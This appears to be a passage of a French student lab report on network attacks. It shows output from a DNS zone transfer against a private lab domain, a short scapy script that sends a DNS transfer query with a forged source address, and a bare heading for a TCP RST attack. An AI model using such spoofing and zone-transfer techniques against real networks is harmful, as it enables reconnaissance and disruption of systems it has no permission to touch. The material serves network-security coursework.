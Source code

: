 ~~~

; <<>> DiG 9.16.23-RH <<>> axfr @dns.tp3.b2 tp3.b2
; (1 server found)
;; global options: +cmd
tp3.b2. 86400 IN SOA dns.tp3.b2. admin.tp3.b2. 2019061800 3600 1800 604800 86400
tp3.b2. 86400 IN NS dns.tp3.b2. 
coolsite.tp3.b2. 86400 IN A 10.3.3.4 
dns.tp3.b2. 86400 IN A 10.3.3.1 
meow.tp3.b2. 86400 IN A 10.3.3.6 
prout.tp3.b2. 86400 IN A 10.3.3.5 
supersite.tp3.b2. 86400 IN A 10.3.3.3 
web.tp3.b2. 86400 IN A 10.3.3.2 
web2.tp3.b2. 86400 IN A 10.3.3.4 
web3.tp3.b2. 86400 IN A 10.3.3.5 
web4.tp3.b2. 86400 IN A 10.3.3.6 
tp3.b2. 86400 IN SOA dns.tp3.b2. admin.tp3.b2. 2019061800 3600 1800 604800 86400
~~~
# B. Flood
🌞 Spoof DNS query
~~~
from scapy.all import *

answer = sr1(IP(dst="dns.tp3.b2", src="10.3.2.10")/UDP(dport=53)/DNS(rd=1,qd=DNSQR(qname="tp3.b2", qtype="AXFR")),verbose=0)

print(answer[DNS].summary())
~~~
- spoof-dns.pcapng
# 2. TCP
# A. TCP RST
🌞 Mettre en place une attaque TCP RST